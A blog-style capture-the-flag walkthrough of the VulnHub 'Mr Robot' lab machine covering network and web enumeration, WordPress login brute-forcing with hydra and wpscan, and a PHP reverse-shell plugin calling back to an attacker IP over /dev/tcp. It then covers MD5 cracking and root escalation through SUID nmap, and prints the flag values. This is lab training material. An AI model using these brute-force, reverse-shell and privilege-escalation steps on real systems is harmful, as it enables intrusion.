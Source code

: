 ```yaml
---
layout: post
title: VulnHub - Mr Robot
date: 2021-01-16 01:10:49 +0100
tags: [HackTheBox]
image: /assets/img/vulnhub/linux/mr-robot/Mr-robot.png
---
```


## Enumeration

![netdiscover](/assets/img/vulnhub/linux/mr-robot/netdiscover.png)

### `nmap` scan

{% highlight bash %}
nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Mr-robot-full-port-scan.txt 192.168.1.25
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:56:5D:6D (Oracle VirtualBox virtual NIC)
{% endhighlight %}

### HTTP•S (port 80 & 443)

![port 80](/assets/img/vulnhub/linux/mr-robot/80.gif)

#### `gobuster`

{% highlight bash %}
$ gobuster dir -u http://192.168.1.25 -w /usr/share/dirb/wordlists/common.txt
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/0 (Status: 301)
/admin (Status: 301)
/atom (Status: 301)
/audio (Status: 301)
/blog (Status: 301)
/css (Status: 301)
/dashboard (Status: 302)
/favicon.ico (Status: 200)
/feed (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/intro (Status: 200)
/js (Status: 301)
/license (Status: 200)
/login (Status: 302)
/page1 (Status: 301)
/phpmyadmin (Status: 403)
/readme (Status: 200)
/rdf (Status: 301)
/robots (Status: 200)
/robots.txt (Status: 200)
/rss (Status: 301)
/rss2 (Status: 301)
/sitemap (Status: 200)
/sitemap.xml (Status: 200)
/video (Status: 301)
/wp-admin (Status: 301)
/wp-content (Status: 301)
/wp-config (Status: 200)
/wp-includes (Status: 301)
/wp-cron (Status: 200)
/wp-links-opml (Status: 200)
/wp-load (Status: 200)
/wp-mail (Status: 403)
/wp-login (Status: 200)
/wp-signup (Status: 302)
{% endhighlight %}

#### `nikto`

{% highlight bash %}
$ nikto -h $TARGET
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.25
+ Target Hostname:    192.168.1.25
+ Target Port:        80
+ Start Time:         2021-01-15 21:35:34 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
+ OSVDB-3092: /admin/: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://192.168.1.25/?p=23>; rel=shortlink
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /wordpresswp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ /wordpresswp-login.php: Wordpress login found
+ 7915 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2021-01-15 21:37:27 (GMT1) (113 seconds)
---------------------------------------------------------------------------
{% endhighlight %}

#### robots.txt

![robots.txt](/assets/img/vulnhub/linux/mr-robot/80-robots.png)

- `key-1-of-3.txt`:

![key-1-of-3](/assets/img/vulnhub/linux/mr-robot/80-key-1-of-3.png)

> Maybe, we have to to find `key-2-of-3.txt` and `key-3-of-3.txt`

- `fsocity.dic` is just a regular wordlist:

{% highlight bash %}
$ wc -l fsocity.dic 
858160 fsocity.dic
$ head -n 10 fsocity.dic 
true
false
wikia
from
the
now
Wikia
extensions
scss
window
{% endhighlight %}

We can see there are a lot of duplicates, we can remove them by doing so:

{% highlight bash %}
$ sort -u fsocity.dic | wc -l
11451
$ sort -u fsocity.dic > fsociety_filtered.dic
{% endhighlight %}

#### wordpress

Thanks `/wp-links-opml.php` (discovered via [gobuster](#gobuster)), we can guess **Wordpress** version (`4.3.25`) and a potential username (`user`):

![wp-links-opml.php](/assets/img/vulnhub/linux/mr-robot/80-wp-links-opml.png)

I tried `wpscan` in order to identify potential vulnerable plugins and/or other users:

{% highlight bash %}
wpscan --url https://192.168.1.25/ --disable-tls-checks --enumerate u 
{% endhighlight %}

But I didn't get anything. 

##### Finding valid username

If we send some random username/password via `/wp-login.php`, we got an interesting error message:   

![Invalid username](/assets/img/vulnhub/linux/mr-robot/Invalid_username.png)

We can use that to enumerate some valid usernames by using `hydra` to brute-force:

{% highlight bash %}
$ hydra -L fsociety_filtered.dic -p whatever 192.168.1.25 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
{% endhighlight %}

![hydra](/assets/img/vulnhub/linux/mr-robot/hydra.png)

And we find `elliot` as a valid username. Indeed:

![elliot](/assets/img/vulnhub/linux/mr-robot/elliot.png)

##### Bruteforcing elliott password

With `wpscan`, we can try to find his password:

{% highlight bash %}
$ wpscan --url https://192.168.1.25/ --disable-tls-checks --password-attack wp-login -U elliot -P fsociety_filtered.dic -t 100 
{% endhighlight %}

And we succeed:

![credentials.png](/assets/img/vulnhub/linux/mr-robot/creds.png)

### Reverse shell

I uploaded a new plugin containing the following code:

{% highlight php %}
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.171/1234 0>&1'");
{% endhighlight %}

![Add plugin](/assets/img/vulnhub/linux/mr-robot/add-plugins.png)

Despite that I encountered an error, the malicious PHP file was successfully uploaded in `/wp-content/uploads`:

![Error Install plugin](/assets/img/vulnhub/linux/mr-robot/Install-plugin.png)

I retrieved its location by looking at the **Media Library**:

![Media Library](/assets/img/vulnhub/linux/mr-robot/media-library.png)

![shell.php URL](/assets/img/vulnhub/linux/mr-robot/plugin-URL.png)

When we visite the URL [http://192.168.1.25/wp-content/uploads/2021/01/shell.php](http://192.168.1.25/wp-content/uploads/2021/01/shell.php), we have a shell:

![reverse-shell](/assets/img/vulnhub/linux/mr-robot/reverse-shell.png)


### User (`robot`)

{% highlight bash %}
daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-content/uploads/2021/01$ 
daemon@linux:/home$ ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
{% endhighlight %}

#### Cracking MD5 using hashcat

{% highlight bash %}
$ hashcat -m 0 files/password.raw-md5 /usr/share/wordlists/rockyou.txt
#...
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
#...
{% endhighlight %}

Now that we have his password, we can get `key-2-of-3.txt`'s content:

{% highlight bash %}
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
{% endhighlight %}

### Road to `root`

I executed [linpeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) to look for possible ways to get `root`. 

Surprisingly, there is `nmap` among the SUID binaries: 

![nmap SUID](/assets/img/vulnhub/linux/mr-robot/nmap.png)

We can check on [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) how we can perform a privesc:

![nmap interactive shell](/assets/img/vulnhub/linux/mr-robot/nmap-shell.png)

And we are root:

{% highlight bash %}
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# ls -la
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
{% endhighlight %}

